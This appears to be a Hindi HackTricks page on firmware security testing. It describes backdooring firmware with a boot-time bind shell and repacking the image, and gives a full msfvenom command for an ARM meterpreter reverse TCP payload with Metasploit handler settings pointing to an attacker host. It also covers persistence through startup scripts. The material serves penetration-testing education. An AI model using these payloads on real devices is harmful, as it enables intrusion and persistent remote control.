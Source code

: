 <details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>


### यह पृष्ठ [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/) से कॉपी किया गया था

**कस्टम फर्मवेयर और/या संकलित बाइनरीज़ अपलोड करने का प्रयास करें** अखंडता या हस्ताक्षर सत्यापन दोषों के लिए। उदाहरण के लिए, निम्नलिखित चरणों का उपयोग करके एक बैकडोर बाइंड शेल को संकलित करें जो बूट होने पर शुरू होता है।

1. फर्मवेयर-मॉड-किट (FMK) के साथ फर्मवेयर निकालें
2. लक्षित फर्मवेयर आर्किटेक्चर और एंडियननेस की पहचान करें
3. बिल्डरूट के साथ क्रॉस कंपाइलर बनाएं या अपने वातावरण के अनुकूल अन्य तरीके उपयोग करें
4. क्रॉस कंपाइलर का उपयोग करके बैकडोर बनाएं
5. निकाले गए फर्मवेयर /usr/bin में बैकडोर की प्रतिलिपि बनाएं
6. निकाले गए फर्मवेयर रूटफ़्स में उपयुक्त QEMU बाइनरी की प्रतिलिपि बनाएं
7. chroot और QEMU का उपयोग करके बैकडोर का अनुकरण करें
8. नेटकैट के माध्यम से बैकडोर से कनेक्ट करें
9. निकाले गए फर्मवेयर रूटफ़्स से QEMU बाइनरी को हटाएं
10. FMK के साथ संशोधित फर्मवेयर को फिर से पैक करें
11. फर्मवेयर विश्लेषण टूलकिट (FAT) के साथ बैकडोर फर्मवेयर का अनुकरण करके और नेटकैट का उपयोग करके लक्षित बैकडोर IP और पोर्ट से कनेक्ट करके परीक्षण करें

यदि डायनामिक विश्लेषण, बूटलोडर मैनिपुलेशन, या हार्डवेयर सुरक्षा परीक्षण के माध्यम से पहले से ही एक रूट शेल प्राप्त किया गया है, तो पूर्व-संकलित दुर्भावनापूर्ण बाइनरीज़ जैसे कि इम्प्लांट्स या रिवर्स शेल्स को निष्पादित करने का प्रयास करें। कमांड और कंट्रोल (C&C) फ्रेमवर्क्स के लिए उपयोग किए जाने वाले स्वचालित पेलोड/इम्प्लांट टूल्स का उपयोग करने पर विचार करें। उदाहरण के लिए, Metasploit फ्रेमवर्क और 'msfvenom' का उपयोग निम्नलिखित चरणों का उपयोग करके किया जा सकता है।

1. लक्षित फर्मवेयर आर्किटेक्चर और एंडियननेस की पहचान करें
2. उपयुक्त लक्ष्य पेलोड (-p), हमलावर होस्ट IP (LHOST=), सुनने वाले पोर्ट नंबर (LPORT=) फ़ाइलटाइप (-f), आर्किटेक्चर (--arch), प्लेटफ़ॉर्म (--platform linux या windows), और आउटपुट फ़ाइल (-o) निर्दिष्ट करने के लिए `msfvenom` का उपयोग करें। उदाहरण के लिए, `msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux`
3. पेलोड को समझौता किए गए डिवाइस पर स्थानांतरित करें (उदाहरण के लिए, एक स्थानीय वेबसर्वर चलाएं और फाइलसिस्टम पर पेलोड को wget/curl करें) और सुनिश्चित करें कि पेलोड में निष्पादन अनुमतियां हैं
4. आने वाले अनुरोधों को संभालने के लिए Metasploit तैयार करें। उदाहरण के लिए, msfconsole के साथ Metasploit शुरू करें और ऊपर दिए गए पेलोड के अनुसार निम्नलिखित सेटिंग्स का उपयोग करें: use exploit/multi/handler,
* `set payload linux/armle/meterpreter_reverse_tcp`
* `set LHOST 192.168.1.245 #हमलावर होस्ट IP`
* `set LPORT 445 #कोई भी अप्रयुक्त पोर्ट हो सकता है`
* `set ExitOnSession false`
* `exploit -j -z`
5. समझौता किए गए डिवाइस पर मीटरप्रीटर रिवर्स 🐚 निष्पादित करें
6. मीटरप्रीटर सत्र खुलते देखें
7. पोस्ट एक्सप्लॉइटेशन गतिविधियां करें

यदि संभव हो, तो डिवाइस पर पुनरारंभ के बाद भी स्थायी पहुंच प्राप्त करने के लिए स्टार्टअप स्क्रिप्ट्स में एक भेद्यता की पहचान करें। ऐसी भेद्यताएं तब उत्पन्न होती हैं जब स्टार्टअप स्क्रिप्ट्स [प्रतीकात्मक लिंक](https://www.chromium.org/chromium-os/chromiumos-design-docs/hardening-against-malicious-stateful-data) करती हैं, या उन पर निर्भर करती हैं जो कोड अविश्वसनीय माउंटेड स्थानों जैसे कि एसडी कार्ड्स, और फ्लैश वॉल्यूम्स पर स्थित होते हैं जिनका उपयोग रूट फाइलसिस्टम्स के बाहर स्टोरेज डेटा के लिए किया जाता है।


<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपोज़ में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
